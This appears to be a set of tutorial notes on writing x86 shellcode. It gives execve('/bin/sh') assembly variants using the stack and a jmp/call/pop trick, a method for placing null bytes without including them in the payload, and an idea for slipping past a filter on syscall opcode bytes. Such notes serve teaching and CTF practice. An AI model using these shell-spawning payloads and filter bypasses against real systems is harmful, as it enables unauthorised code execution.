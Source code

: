 ## Alternative ways to write a shellcode

### Write the path parameter on stack

```as
mov rdi, 0x68732f6e69622f         ; write the string "/bin/sh\0" in a register
push rdi                          ; push it on stack
mov rdi, rsp                      ; get its address

mov rax, 0x3b
mov rsi, 0
mov rdx, 0
syscall
```

### Use a call to get the address of the path parameter

```as
jmp address

code:
    mov rax, 0x3b
    pop rdi
    mov rsi, 0
    mov rdx, 0
    syscall

address:
    call code           ; the next address is saved on stack

    ; put here "/bin/sh\0" during the read of the shellcode
```

## Special cases

### Specific characters are not allowed

To put "\0" at the end of "/bin/sh" is possible to use these instructions.

```as
mov ebx, 0x804c040      ; ebx is the address of the string "/bin/sh"
mov al, 0               ; al is zero
mov [ebx + 7], al       ; move zero in the byte pointed by ebx + 7
```

The idea is to put the value in a registry and then move it inside a specific address.
It can be used to change everything in memory.

For example, we could find a binary that blocks any syscalls by filtering the bytes "0f 05" (syscall assembly code).
To overcome it you could write the initial shellcode padded with a nop sled.
Then, you could write the two characters needed in any point of the memory.
